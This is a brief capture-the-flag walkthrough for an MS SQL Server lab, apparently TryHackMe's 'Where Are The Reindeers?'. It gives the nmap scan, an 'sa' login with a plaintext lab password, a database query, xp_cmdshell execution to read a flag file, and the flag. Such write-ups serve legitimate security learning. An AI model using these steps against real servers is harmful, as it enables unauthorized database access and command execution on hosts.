# [Day11] *Networking* Where Are The Reindeers? 

-------------

> Author Razvan Bielz \
> Date: 14 Jan 2022

--------------

## Info

`IP: 10.10.190.176`

### Accounts

--------------

## Steps

1. `sudo nmap -sC -sV -Pn 10.10.190.176 > 11-nmap.txt` -Pn because Windows
2. sqsh (pronounced skwish):  
  `sqsh -S 10.10.190.176 -U sa -P t7uLKzddQzVjVFJp`
3. `SELECT * FROM reindeer.dbo.names;`  
  `go`
4. `xp_cmdshell 'type c:\Users\Grinch\Documents\flag.txt';`  
  `go`

--------------

## Flags

`THM{YjtKeUy2qT3v5dDH}`

--------------

## What have we learned?

- Relational Database Management System - MS SQL Server
- Some MS SQL Servers have `xp_cmdshell` enabled